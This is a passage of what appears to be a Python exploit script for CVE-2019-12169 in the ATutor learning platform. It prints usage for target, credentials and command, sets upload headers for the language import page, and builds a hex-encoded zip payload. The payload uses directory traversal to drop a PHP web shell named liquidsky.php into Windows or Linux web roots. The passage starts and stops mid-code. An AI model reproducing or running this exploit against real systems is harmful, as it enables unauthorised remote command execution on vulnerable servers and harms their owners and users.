     except IndexError:

            print
        print "- usage: %s <target> <username> <password> <command>" % sys.argv[0]
        print "- Example: %s incidentsecurity.com admin mypassword 'whoami'" % sys.argv[0]
            print
        sys.exit()


    # headers to upload zip
    headers = {
        "Accept-Encoding": "gzip, deflate",
        "Referer": "http://" + target + "/ATutor/mods/_core/languages/language_import.php",
        "Connection": "close",
        "Content-Type": "multipart/form-data; boundary=---------------------------CVE201912169",
    }

    # Note: This was successfully tested against a windows install however it should work with linux.
    # -----
    # This will drop a shell on c:\xampp\htdocs\liquidsky.php and or /var/www/html/liquidsky.php
    # using directory traversal.


    # php file payload
    data = ""
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43"
    data += "\x56\x45\x32\x30\x31\x39\x31\x32\x31\x36\x39\x0d\x0a\x43\x6f"
    data += "\x6e\x74\x65\x6e\x74\x2d\x44\x69\x73\x70\x6f\x73\x69\x74\x69"
    data += "\x6f\x6e\x3a\x20\x66\x6f\x72\x6d\x2d\x64\x61\x74\x61\x3b\x20"
    data += "\x6e\x61\x6d\x65\x3d\x22\x66\x69\x6c\x65\x22\x3b\x20\x66\x69"
    data += "\x6c\x65\x6e\x61\x6d\x65\x3d\x22\x70\x6f\x63\x2e\x7a\x69\x70"
    data += "\x22\x0d\x0a\x43\x6f\x6e\x74\x65\x6e\x74\x2d\x54\x79\x70\x65"
    data += "\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x7a"
    data += "\x69\x70\x0d\x0a\x0d\x0a\x50\x4b\x03\x04\x14\x00\x00\x00\x08"
    data += "\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00\x6a\x00"
    data += "\x00\x00\x2c\x00\x00\x00\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x5c"
    data += "\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x2f\x78\x61\x6d\x70\x70\x5c"
    data += "\x68\x74\x64\x6f\x63\x73\x5c\x6c\x69\x71\x75\x69\x64\x73\x6b"
    data += "\x79\x2e\x70\x68\x70\xb3\xb1\x2f\xc8\x28\x50\x48\x2d\x4b\xcc"
    data += "\xd1\x50\xb2\xb7\x53\xd2\x4b\x4a\x2c\x4e\x35\x33\x89\x4f\x49"
    data += "\x4d\xce\x4f\x49\xd5\x50\x72\x09\xcc\xf7\x02\x62\x8b\x00\x63"
    data += "\xa7\xfc\x64\x67\xa7\x9c\x48\xa3\x8c\x32\x4f\x0f\xa7\x8c\x64"
    data += "\x63\x3f\x83\x44\x0f\x2f\x43\x6f\xe7\xa0\xb4\x20\x83\xb0\xd0"
    data += "\xf0\xca\x94\xe2\xc8\x70\xd3\xbc\x94\x70\xb7\xbc\xa8\xe0\x94"
    data += "\x14\xef\x90\xe2\xf4\x80\x2a\x13\x3f\xe7\x74\x5b\x5b\x25\x4d"
    data += "\x4d\x6b\x05\x7b\x3b\x00\x50\x4b\x03\x04\x14\x00\x00\x00\x08"
    data += "\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00\x6a\x00"
    data += "\x00\x00\x2c\x00\x00\x00\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f"
    data += "\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x76\x61\x72\x2f\x77\x77"
    data += "\x77\x2f\x68\x74\x6d\x6c\x2f\x6c\x69\x71\x75\x69\x64\x73\x6b"
    data += "\x79\x2e\x70\x68\x70\xb3\xb1\x2f\xc8\x28\x50\x48\x2d\x4b\xcc"
    data += "\xd1\x50\xb2\xb7\x53\xd2\x4b\x4a\x2c\x4e\x35\x33\x89\x4f\x49"
    data += "\x4d\xce\x4f\x49\xd5\x50\x72\x09\xcc\xf7\x02\x62\x8b\x00\x63"
    data += "\xa7\xfc\x64\x67\xa7\x9c\x48\xa3\x8c\x32\x4f\x0f\xa7\x8c\x64"